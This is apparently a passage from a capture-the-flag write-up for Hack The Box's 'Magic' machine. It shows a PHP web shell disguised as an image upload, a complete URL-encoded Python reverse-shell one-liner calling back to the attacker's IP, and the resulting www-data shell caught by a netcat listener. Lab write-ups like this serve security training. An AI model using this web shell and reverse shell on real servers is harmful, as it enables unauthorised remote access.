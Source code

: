 ![htb_magic_dirs.png](../assets/magic_assets/htb_magic_dirs.png)

We find we can confirm code execution with: http://10.129.64.156/images/uploads/dog.php.jpg?cmd=id

![htb_magic_confirm.png](../assets/magic_assets/htb_magic_confirm.png)

Interestingly, it appears the file gets scrubbed quickly, because a minute or two later the same request yields a 404 not found error. 

This explains why I was having an issue originally accessing the web shell at `/images/uploads`

Lets set up a netcat listener, upload the file again, and issue a URL encoded reverse shell one-liner from revshells.com, all before our file gets scrubbed.

```
http://10.129.64.156/images/uploads/dog.php.jpg?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.138%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

This catches us a shell back as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Magic]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.138] from (UNKNOWN) [10.129.64.156] 41288
www-data@ubuntu:/var/www/Magic/images/uploads$ whoami
whoami
www-data
www-data@ubuntu:/var/www/Magic/images/uploads$ hostname
hostname
ubuntu
```
